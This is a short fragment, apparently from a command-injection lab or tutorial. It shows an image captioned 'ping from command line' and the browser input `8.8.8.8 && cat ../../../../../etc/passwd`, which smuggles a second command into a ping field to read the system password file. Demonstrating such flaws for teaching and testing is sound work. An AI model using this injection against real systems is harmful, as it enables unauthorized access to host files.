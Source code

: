         ![ping from command line](/Images/ping-8-8-8-8-etc-passwd.PNG)  

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`